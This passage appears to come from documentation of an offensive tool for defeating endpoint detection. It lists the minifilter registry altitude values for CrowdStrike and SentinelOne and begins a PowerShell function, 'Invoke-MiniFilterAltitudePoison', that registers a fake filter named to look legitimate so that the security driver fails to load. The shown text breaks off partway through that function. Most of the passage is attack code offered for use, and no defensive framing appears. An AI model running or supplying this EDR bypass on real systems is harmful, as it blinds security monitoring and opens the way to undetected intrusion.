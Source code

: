 ### Registry Manipulation Points

**Primary Target:**
```
HKLM\SYSTEM\CurrentControlSet\Services\{EDR_Driver}\Instances\{Instance_Name}
    Altitude: REG_SZ
```

**Example for CrowdStrike:**
```powershell
# CrowdStrike uses altitude 385200
HKLM\SYSTEM\CurrentControlSet\Services\CrowdStrike\Instances\CrowdStrike Instance
    Altitude: "385200"
```

**Example for SentinelOne:**
```powershell
# SentinelOne uses altitude 328010
HKLM\SYSTEM\CurrentControlSet\Services\SentinelMonitor\Instances\SentinelMonitor Instance
    Altitude: "328010"
```

## Implementation

### PowerShell Implementation

```powershell
<#
.SYNOPSIS
    Pre-emptive EDR bypass via MiniFilter altitude manipulation

.DESCRIPTION
    Creates fake MiniFilter registrations at EDR altitude values to force
    registration failures during EDR driver initialization.

.NOTES
    Requires Administrator privileges
    Must execute BEFORE target EDR driver loads (typically pre-boot or safe mode)
#>

function Invoke-MiniFilterAltitudePoison {
    param(
        [string]$TargetEDRDriver,
        [string]$TargetAltitude,
        [string]$PoisonFilterName = "LegitWindowsFilter"
    )

    # Validate privileges
    if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
        Write-Error "Administrator privileges required"
        return $false
    }

    # Registry path for poison filter
    $poisonServicePath = "HKLM:\SYSTEM\CurrentControlSet\Services\$PoisonFilterName"
    $poisonInstancePath = "$poisonServicePath\Instances\$PoisonFilterName Instance"

    try {
        # Create poison service registration
        if (-not (Test-Path $poisonServicePath)) {
            New-Item -Path $poisonServicePath -Force | Out-Null
            New-ItemProperty -Path $poisonServicePath -Name "Type" -Value 2 -PropertyType DWord -Force | Out-Null
```